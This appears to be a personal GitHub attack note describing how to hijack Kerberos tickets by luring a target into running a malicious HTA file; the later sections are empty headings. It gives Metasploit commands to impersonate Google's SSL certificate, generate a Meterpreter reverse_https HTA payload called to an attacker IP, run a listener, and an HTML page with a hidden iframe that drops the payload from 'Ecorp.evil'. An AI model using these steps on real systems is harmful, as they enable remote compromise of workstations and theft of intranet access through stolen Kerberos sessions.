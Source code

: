 # Hijacking Kerberose Tickets
> Jacking kerberos tickets to remotely access the intranet.
> The noted describe a process that is run from Kali

1. Attacker creates a web page seving a malicous HTA file
2. Target browses the attacker-sent web page & executes the served HTA file
3. Meterpreter session is established
4. Malicous Code Injection
	- A: PowerShell script for recon against browser is injected into the target workstation's memory.
	- B: gssapu-proxy is dropped and executed.  The attacker can connect to port 8080 & browse the intranet, hijacking the target's active Kerberose tickets.


## 1. Malicous HTA File

1. Craft Malicous HTA File

```bash
service postgressql start
msfconsole

# MSF

msf5 use auxilary/gather/impersonate_ssl
msf5 auxilary(mpersonste_ssl)> set RHOST www.google.com
msf5 auxilary(mpersonste_ssl)> run
```

The output of *run* will include a `[+] www.google.com:443 - pem: /location/to/pem.pem`.

```bash
# MSF
msf5 auxilary(mpersonste_ssl)> use payload/windows/meterpreter/reverse_https
msf5 payload(windows/meterpreter/reverse_https)> set LHOST [evil external IP]
msf5 payload(windows/meterpreter/reverse_https)> set LPORT 443
msf5 payload(windows/meterpreter/reverse_https)> set stagerverifysslcert true
msf5 payload(windows/meterpreter/reverse_https)> set HANDLERSSLCERT /location/to/pem.pem
msf5 payload(windows/meterpreter/reverse_https)> generate -f hta-psh -o /tmp/patch.hta  #See Note Below
msf5 payload(windows/meterpreter/reverse_https)> back
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST [external OR internal IP depending on the setup]
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > set stagerverifysslcert  true
msf5 exploit(multi/handler) > set HANDLERSSLCERT /location/to/pem.pem
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > exploit -j


```
**generate** Note: This could throw an error depending on the version of MSF you are using.
Older versions of msf use slightly different option flags.  Check the options.
This may work instead: `generate -t hta-psh -f /tmp/patch.hta`
the `-t` was for output format but in `msf5>` it is `-f`
the `-f` was for output filename but in `msf5>` it is `-o`

**Simple HTML page** te server the HTA file just created
```html
<html>
<head>
<body>
<div style="display:none;">
	<iframe id="frmDld" src:"http://Ecorp.evil/patch.hta"></iframe>
</div>
</body>
</head>
</html>
```



## 2. HTA File is Executed


## 3. Meterpreter Session


## 4. Malicous Code Injection